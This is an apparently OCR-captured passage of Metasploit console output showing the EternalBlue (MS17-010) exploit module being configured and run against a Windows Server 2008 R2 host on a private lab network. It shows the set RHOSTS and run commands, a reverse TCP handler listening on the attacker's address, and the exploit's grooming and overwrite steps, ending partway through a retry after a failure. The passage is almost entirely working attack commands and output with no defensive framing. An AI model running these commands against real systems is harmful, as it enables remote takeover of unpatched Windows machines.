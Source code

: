 ```

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.248.148  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.248.133
RHOSTS => 192.168.248.133
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.248.148:4444 
[*] 192.168.248.133:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.248.133:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7600 x64 (64-bit)
[*] 192.168.248.133:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.248.133:445 - The target is vulnerable.
[*] 192.168.248.133:445 - Connecting to target for exploitation.
[+] 192.168.248.133:445 - Connection established for exploitation.
[+] 192.168.248.133:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.248.133:445 - CORE raw buffer dump (36 bytes)
[*] 192.168.248.133:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.248.133:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 192.168.248.133:445 - 0x00000020  37 36 30 30                                      7600            
[+] 192.168.248.133:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.248.133:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.248.133:445 - Sending all but last fragment of exploit packet
[*] 192.168.248.133:445 - Starting non-paged pool grooming
[+] 192.168.248.133:445 - Sending SMBv2 buffers
[+] 192.168.248.133:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.248.133:445 - Sending final SMBv2 buffers.
[*] 192.168.248.133:445 - Sending last fragment of exploit packet!
[*] 192.168.248.133:445 - Receiving response from exploit packet
[+] 192.168.248.133:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.248.133:445 - Sending egg to corrupted connection.
[*] 192.168.248.133:445 - Triggering free of corrupted buffer.
[-] 192.168.248.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.248.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.248.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.248.133:445 - Connecting to target for exploitation.
[+] 192.168.248.133:445 - Connection established for exploitation.
[+] 192.168.248.133:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.248.133:445 - CORE raw buffer dump (36 bytes)
[*] 192.168.248.133:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.248.133:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
```